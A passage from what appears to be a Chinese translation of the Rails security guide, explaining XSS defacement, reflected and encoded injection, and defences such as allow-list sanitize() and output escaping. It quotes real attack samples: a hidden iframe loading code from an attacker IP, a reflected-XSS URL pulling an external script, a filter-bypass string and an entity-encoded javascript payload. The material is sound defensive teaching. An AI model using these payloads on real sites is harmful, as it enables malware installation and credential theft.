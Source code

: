通过网页篡改，攻击者可以做很多事情，例如呈现虚假信息或引诱受害者访问攻击者的网站以窃取cookie、登录凭据或其他敏感数据。最常见的方法是通过iframe包含来自外部源的代码：

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

这将从外部源加载任意HTML和/或JavaScript，并将其嵌入到网站中。此`iframe`来自对合法意大利网站使用[Mpack攻击框架](https://isc.sans.edu/diary/MPack+Analysis/3015)的实际攻击。Mpack尝试通过Web浏览器中的安全漏洞安装恶意软件-非常成功，50%的攻击成功。

更专门的攻击可能会覆盖整个网站或显示一个登录表单，该表单看起来与网站的原始表单相同，但会将用户名和密码传输到攻击者的网站。或者，它可以使用CSS和/或JavaScript隐藏Web应用程序中的合法链接，并在其位置显示另一个链接，该链接重定向到一个假网站。

反射注入攻击是指负载不会存储以供以后呈现给受害者，而是包含在URL中的攻击。特别是搜索表单未对搜索字符串进行转义。以下链接呈现了一个页面，其中指出“乔治·布什任命了一个9岁的男孩担任主席...”：

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### 对策

_过滤恶意输入非常重要，但转义Web应用程序的输出也很重要_。

特别是对于XSS，重要的是进行_允许的输入过滤而不是限制的过滤_。允许列表过滤声明允许的值，而不是不允许的值。受限制的列表永远不会完整。

想象一下，受限制的列表从用户输入中删除了`"script"`。现在攻击者注入了`"<scrscriptipt>"`，并且在过滤之后，`"<script>"`仍然存在。Rails的早期版本对于`strip_tags()`、`strip_links()`和`sanitize()`方法使用了受限制的列表方法。因此，这种注入是可能的：

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

这将返回`"some<script>alert('hello')</script>"`，从而使攻击成功。这就是为什么允许列表方法更好，使用更新的Rails 2方法`sanitize()`：
```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

这样只允许给定的标签，并且对各种技巧和格式错误的标签都有很好的处理效果。

作为第二步，_在重新显示用户输入时，最好对应用程序的所有输出进行转义处理_，特别是未经输入过滤的用户输入。可以使用`html_escape()`（或其别名`h()`）方法，将HTML输入字符`&`、`"`、`<`和`>`替换为它们在HTML中的未解释表示（`&amp;`、`&quot;`、`&lt;`和`&gt;`）。

##### 混淆和编码注入

网络流量主要基于有限的西方字母表，因此出现了新的字符编码，如Unicode，用于传输其他语言中的字符。但是，这也对Web应用程序构成威胁，因为恶意代码可以隐藏在Web浏览器可能能够处理但Web应用程序可能无法处理的不同编码中。下面是一个使用UTF-8编码的攻击向量示例：

```html
<img src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;
  &#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
```

这个示例会弹出一个消息框。然而，它会被上面的`sanitize()`过滤器识别出来。一个很好的混淆和编码字符串的工具，从而“了解你的敌人”，是[Hackvertor](https://hackvertor.co.uk/public)。Rails的`sanitize()`方法在防御编码攻击方面做得很好。

#### 地下攻击的示例

_为了了解当今对Web应用程序的攻击，最好看一些真实的攻击向量。_

以下是[Yahoo! Mail蠕虫Js.Yamanner@m](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=12d8d106-1137-4d7c-8bb4-3ea1faec83fa)的摘录。它于2006年6月11日出现，是第一个针对Web邮件界面的蠕虫：
